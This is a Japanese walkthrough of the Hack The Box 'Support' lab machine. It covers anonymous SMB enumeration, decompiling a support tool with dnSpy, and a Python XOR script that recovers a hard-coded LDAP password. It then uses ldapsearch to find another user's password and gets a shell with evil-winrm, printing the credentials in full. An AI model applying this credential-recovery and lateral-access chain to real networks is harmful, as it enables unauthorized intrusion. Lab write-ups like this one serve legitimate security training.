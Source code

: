 まずsmbシェアを調べると、見慣れないsupport-toolsなフォルダがある。

```
┌──(shoebill㉿shoebill)-[~/Support_10.10.11.174]
└─$ smbclient -L 10.10.11.174 

Password for [WORKGROUP\shoebill]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	support-tools   Disk      support staff tools
	SYSVOL          Disk      Logon server share 
  ```
  
 パスワード無しでsupport-toolsにアクセスして中身を確認する。
 
 ```
┌──(shoebill㉿shoebill)-[~/Support_10.10.11.174]
└─$ smbclient //10.10.11.174/support-tools
Password for [WORKGROUP\shoebill]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Jul 21 02:01:06 2022
  ..                                  D        0  Sat May 28 20:18:25 2022
  7-ZipPortable_21.07.paf.exe         A  2880728  Sat May 28 20:19:19 2022
  npp.8.4.1.portable.x64.zip          A  5439245  Sat May 28 20:19:55 2022
  putty.exe                           A  1273576  Sat May 28 20:20:06 2022
  SysinternalsSuite.zip               A 48102161  Sat May 28 20:19:31 2022
  UserInfo.exe.zip                    A   277499  Thu Jul 21 02:01:07 2022
  windirstat1_1_2_setup.exe           A    79171  Sat May 28 20:20:17 2022
  WiresharkPortable64_3.6.5.paf.exe      A 44398000  Sat May 28 20:19:43 2022
```

UserInfo.exe.zipがユーザ情報を得られそうなのでこれをダウンロードする。

```
smb: \> get UsreInfo.exe.zip
```
ダウンロード後、解凍してdnSpyで解析する。

```
┌──(shoebill㉿shoebill)-[~/Support_10.10.11.174/support-tools]
└─$ unzip UserInfo.exe.zip
```
`UserInfo.exe`をdnSpyでみると暗号化されたパスワード、キー、そしてパスワードを生成する`getPassword()`関数が見つかる。

![dnspy](https://user-images.githubusercontent.com/85237728/194679210-75055544-fd20-497f-bbca-8caedabb954e.png)

XORは二回繰り返すと元に戻るので、このコードを参考にPythonスクリプトを書く。

```python
#!/usr/bin/env python3
from base64 import b64decode
from pwn import *

array = b64decode('0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E')
key = bytes('armando', 'utf-8')
ans = b''
for i in range(len(array)):
    temp = array[i] ^ key[i % len('armando')] ^ 223
    ans += pack(temp, 'all')

print('ans:', ans)
```
実行すると生のパスワードを得る。

```
┌──(shoebill㉿shoebill)-[~/Support_10.10.11.174]
└─$ python3 decryptor.py
ans: b'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```
しかし、このパスワードはユーザsupportのパスワードではない。

もう少しdnSpyの解析結果をみると、`LdapQuery()`というLdapについての関数が見つかる。

![ldapq](https://user-images.githubusercontent.com/85237728/194679714-8b0abf6c-6c51-40f4-8785-4845d4691776.png)

これにより"ldap"という名前のユーザいることがわかった。

ユーザ名ldap、パスワードnvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmzのcredentialを使って`ldapsearch`コマンドを実行する。

以下のように実行してUser情報を調べると、ユーザsupportの「info」の欄にパスワードらしき文字列がある。

```
┌──(shoebill㉿shoebill)-[~/Support_10.10.11.174/LdapSearch]
└─$ ldapsearch -x -H ldap://support.htb -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'CN=Users,DC=support,DC=htb'
...
# support, Users, support.htb
dn: CN=support,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: support
c: US
l: Chapel Hill
st: NC
postalCode: 27514
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20220528111201.0Z
uSNCreated: 12617
info: Ironside47pleasure40Watchful
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
uSNChanged: 12630
company: support
streetAddress: Skipper Bowles Dr
name: support
objectGUID:: CqM5MfoxMEWepIBTs5an8Q==
...
```

ユーザ名support、パスワードIronside47pleasure40Watchfulで`evil-winrm`を実行したらユーザsupportのシェルがとれた。

![usertxt](https://user-images.githubusercontent.com/85237728/194680079-a0d7880f-ce8b-407e-8baf-f57a8367a305.png)

# 感想

やはり`ldapsearch`コマンドのenumが大切。ローカルの`bloodhound`や`ldapdomaindump`ではsupportのパスワードは得られなかった。

`ldapsearch`の結果をよく読んだり、dnSpyが解析したソースコードをよく読んで、何がおこなれているのか？やパスワード・ユーザ名を読み取るのが重要。
